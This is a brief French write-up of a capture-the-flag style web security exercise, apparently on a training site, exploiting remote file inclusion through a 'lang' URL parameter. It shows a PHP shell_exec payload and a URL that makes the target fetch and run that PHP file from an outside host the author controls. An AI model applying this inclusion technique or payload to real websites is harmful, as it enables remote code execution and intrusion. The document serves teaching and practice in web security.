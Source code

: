 ## Remote

Ahah, je sais que je vais devoir injecter du code malicieux pour bypass les sécurités mises en places !

Pour tester on peut injecter ça dans l'url

```URL
https://remote.secu-web.blackfoot.dev/index.php?lang=https://www.google.com
```
![remote image](remote.PNG "gooooooooooooooogle")


Maintenant faisons notre injection php

```PHP
<?php
echo shell_exec("ls");
echo shell_exec("cat");
?>
```

je commence par créer un fichier php qui exécute la commande **ls un cat pour voir le contenu des fichiers**
je upload ce fichier sur mon super serveur dans le but d'injecter ce code malicieux hehe.

```URL
https://remote.secu-web.blackfoot.dev/index.php?lang=https://media.alors-la.center/s/0vyufe2p.php
```

![remote image](remote2.PNG "flaaaaaaaaag")



